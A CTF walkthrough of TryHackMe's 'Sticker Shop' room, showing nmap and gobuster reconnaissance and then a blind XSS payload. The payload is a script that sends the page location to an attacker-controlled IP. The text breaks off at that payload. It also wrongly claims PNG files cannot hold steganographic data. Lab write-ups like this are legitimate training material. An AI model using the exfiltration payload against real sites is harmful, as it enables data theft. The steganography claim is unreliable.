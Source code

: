 # Write-Up: The Sticker Shop
[The Sticker Shop](https://tryhackme.com/r/room/thestickershop) is an easy-ranked CTF box that challenges us to access a flag at a specified location of the web server. It introduces us to a common web vulnerability found in websites, seldom being showcased on TryHackMe.

## Reconaissance
We start by scanning the target for open ports using *nmap*.

```
nmap -sV -sC -T4 -p0-65535 sticker.thm
```

```
Host is up (0.037s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.8.10)
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see two open ports with the web service being offered on `8080`. Let's open the page in the browser.

![Homepage of hosted website](img/StickerShop-InitialPage.png)

Apart from two buttons and cat images, there is nothing to see.

- We're not able to inspect the `/static/` route or its subfolders, such as `/static/images/`, which contains the image files. The images are sequentially named, i.e. `cat_sticker_1.png`, `cat_sticker_2.png`, and the absence of `cat_sticker_3.png` likely tells us that there are no other images. Since the file format is PNG, no secret information could have been embedded via steganography.
- Inspecting the buttons, we can see that *Home* leads us to `/`, i.e. the position we're currently at, while *Feedback* brings us to `/submit_feedback`. There we find an input form that allows visitors to submit feedback, that is being sent to the URI via POST.


```
gobuster dir -u 'http://sticker.thm:8080/' -w '/usr/share/wordlists/dirb/common.txt'
```

Not much found but "flag.txt".

### XSS
```
<script>var req = new XMLHttpRequest(); req.open("GET", "http://10.9.4.33:8000/" + window.location.href, false); req.send();</script>
```
